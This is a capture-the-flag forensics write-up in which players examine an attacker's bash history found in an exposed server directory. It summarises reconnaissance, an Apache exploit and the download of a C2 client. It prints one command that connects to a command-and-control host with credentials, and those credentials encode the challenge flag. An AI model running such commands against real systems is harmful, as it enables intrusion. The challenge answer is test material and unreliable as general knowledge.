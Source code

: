 ![](../../assets/banner.png)

<img src='../../assets/htb.png' style='margin-left: 20px; zoom: 80%;' align=left /> <font size='10'>Frontier Exposed</font>

20<sup>th</sup> December 2024 / Document No. D24.102.XX

Prepared By: thewildspirit

Challenge Author(s): thewildspirit

Difficulty: <font color=Green>Very Easy</font>

Classification: Official

# Synopsis

* Frontier Exposed is a very easy forensic challenge that involves analyzing an open directory on a vulnerable server. Participants are tasked with investigating the bash history to uncover the actions of malicious actors.

## Description

* The chaos within the Frontier Cluster is relentless, with malicious actors exploiting vulnerabilities to establish footholds across the expanse. During routine surveillance, an open directory vulnerability was identified on a web server, suggesting suspicious activities tied to the Frontier Board. Your mission is to thoroughly investigate the server and determine a strategy to dismantle their infrastructure. Any credentials uncovered during the investigation would prove invaluable in achieving this objective. Spawn the docker and start the investigation!

## Skills Required

* Minimal experience with the Linux operating system.

## Skills Learned

* Open directory 
* Analyzing bash history

# Enumeration

Players are provided with a Docker instance. Upon launching the instance and navigating to the specified URL, they will encounter the following.
![](./assets/open_dir.png)
"As outlined in the description, this server has an open directory vulnerability, allowing unrestricted access to all files within the directory from which the server is being executed."

By inspecting the files such as `nmap_scan_results.txt` and `dirs.txt`, it is clear that a malicious actor was performing an enumeration on their target. Let us analyze the outputs.

![](./assets/nmap_output.png)

The target had two ports open. Port 22 which is the SSH service and port 80 which is a vulnerable Apache server. This means that `exploit.sh` is probably the exploit for that server. 

![](./assets/exploit.png)

Which is indeed an exploit for that specific version. Now let us move to the bash history so we can have a better view on the attacker's actions.

![](./assets/history.png)

* The attacker used `Nmap` to perform a service and version scan, saving results in `nmap_scan_results.txt`. They then inspected the scan results using `cat`.
* Using `gobuster`, they conducted directory brute-forcing to identify hidden directories or files, followed by a full port scan using `nc`.
* The attacker employed curl and nikto for basic web reconnaissance and vulnerability scanning. 
* `Sqlmap` was used for automated SQL injection to extract database information. But it probably was not successful.
* They leveraged searchsploit to identify vulnerabilities in `Apache 2.4.49` and downloaded a related exploit script (exploit.sh), granting it execution permissions with `chmod`. After crafting a target file, they used the exploit to gain a shell and confirm their access via the `whoami` command.
* Post-exploitation actions included downloading and executing a command-and-control (C2) client, establishing remote access, and executing a beacon script via curl. 
* The attacker also fetched a vulnerability assessment script (vulnmap-linux.py) and copied it to the web directory, possibly for further exploitation or persistence. 

# Solution

Something worth noting is the following command.
```console
/c2client --server 'https://notthefrontierboard' --port 4444 --user admin --password SFRCe0[REDACTED]2R9
```
Which as described earlier, connects to a Command & Control server with the following credentials:
```
admin:SFRCe0[REDACTED]2R9
```
[Cyber Chef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)) can identify and decode this string.

That is how we can get the flag.